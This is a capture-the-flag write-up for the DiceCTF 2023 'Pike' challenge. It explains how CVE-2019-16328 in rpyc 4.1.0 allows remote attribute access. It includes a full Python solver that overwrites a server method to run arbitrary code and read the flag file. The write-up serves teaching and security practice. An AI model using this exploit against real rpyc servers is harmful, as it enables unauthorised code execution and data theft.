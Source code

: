 ```yaml
---
title: 'DiceCTF 2023 - Pike'
date: '2023-02-05'
tags: ['CTF', 'Misc', 'DiceCTF', 'rpyc']
slug: 'dicectf2023-misc-pike'
description: "Using CVE-2019-16328 to dynamically modify remote object attributes to give RCE"
draft: false
---
```


## Pike Soup  - Misc (by @clubby789)

![desc](./desc.png)

This was an interesting exploration into [rpyc](https://rpyc.readthedocs.io/en/latest/), or Remote Python Call, which is typically used for symmetrical remote procedure calls, clustering and distributed computing. They allow for manipulation of remote python objects as if they were local.
### Description/Source

```py
#!/usr/local/bin/python

# server.py

import rpyc
from rpyc.utils.server import ThreadedServer

class CalcService(rpyc.Service):
    def exposed_add(self, l, r):
        return l + r
    def exposed_sub(self, l, r):
        return l - r
    def exposed_mul(self, l, r):
        return l * r
    def exposed_div(self, l, r):
        return l / r

if __name__ == "__main__":
    server = ThreadedServer(CalcService, port=9999)
    server.start()
```

```Dockerfile
FROM python:3.11.1-slim-bullseye
WORKDIR /app
RUN pip install --no-cache rpyc==4.1.0
COPY server.py flag.txt ./
USER nobody
CMD ["python", "server.py"]
```

From the Dockerfile, we can see that there is a suspicious specific version given which is `4.1.0` for `rpyc`. Upon searching, we discover [CVE-2019-16328](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16328) which affects versions of rpyc `<= 4.1.1`. This was later patched in [this commit](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16328) and a [disclosure](https://rpyc.readthedocs.io/en/latest/docs/security.html) was added to their documentation.

We can see from the patch that the previous vulnerable version allowed users to call `getattr` on a user provided object, which gives a reference to a method on this object. Using this we can construct a function using the `CodeType` object and overwrite one of the `exposed_*` methods on the `CalcService`.

First we give ourselves an instance provided by their instance

![instancer](./instancer.png)

To connect to their instance, I ran this command

```
socat tcp-listen:1337,fork,reuseaddr openssl:pike-4971d4f85f3cd618.mc.ax:1
```

> we run a TCP server on port 1337 using socat. We fork a separate instance of socat for each new connection. The reuseaddr option allows us to reuse the server port combination immediately once the server is shut down. We use ssl encryption to connect to the pike host and can interact with the server by connecting to our local host and port.

### Solver

```python
from time import time
import rpyc

def exploit(param):
    with open('./flag.txt', 'r') as f:
        abc = f.read()
        return abc



t1 = time()
r = rpyc.connect('localhost', 1337)
handler = rpyc.core.consts.HANDLE_CMP

print("Connected!")

def netref_getattr(netref, attrname):
    return r.sync_request(handler, netref, attrname, '__getattribute__')

remote_svc_proto = netref_getattr(r.root, '_protocol')
remote_dispatch = netref_getattr(remote_svc_proto, '_dispatch_request')
remote_class_globals = netref_getattr(remote_dispatch, '__globals__')
remote_modules = netref_getattr(remote_class_globals['sys'], 'modules')

print("Got the modules!") 

_builtins = remote_modules['builtins']
remote_builtins = {k: netref_getattr(_builtins, k) for k in dir(_builtins)}

print("Got the builtins!")


# populate globals for CodeType calls on remote
remote_globals = remote_builtins['dict']()
for name, netref in remote_builtins.items():
    remote_globals[name] = netref

for name, netref in netref_getattr(remote_modules, 'items')():
    remote_globals[name] = netref

print("Populated globals!")

# create netrefs for types to create remote function malicously
remote_types = remote_builtins['__import__']("types")
remote_types_CodeType = netref_getattr(remote_types, 'CodeType')
remote_types_FunctionType = netref_getattr(remote_types, 'FunctionType')

print("Got function types!")

print("Just getting started time:", int(time() - t1), "seconds")


arg_names = ['co_argcount', 'co_posonlyargcount', 'co_kwonlyargcount', 'co_nlocals', 'co_stacksize', 'co_flags','co_code', 'co_consts', 'co_names', 'co_varnames', 'co_filename', 'co_name', 'co_name', 'co_firstlineno','co_lnotab', 'co_lnotab', ]
func_code = exploit.__code__

codetype_args = [getattr(func_code, n) for n in arg_names]


remote_eval_codeobj = remote_types_CodeType(*codetype_args)
remote_eval = remote_types_FunctionType(remote_eval_codeobj, remote_globals)

remote_setattr = remote_builtins['setattr']
remote_type = remote_builtins['type']

remote_setattr(remote_type(r.root), 'exposed_add', remote_eval)

res = r.root.exposed_add()
```

### Flag

![flag](./flag.png)

```
dice{pyj41l_w1th_4_tw15t}
```

### References / Other solutions

- [Author's Writeup](https://gist.github.com/clubby789/b681e7a40da070713c3760953d8df1c3)
- [CVE PoC](https://github.com/tomerfiliba-org/rpyc/security/advisories/GHSA-pj4g-4488-wmxm)
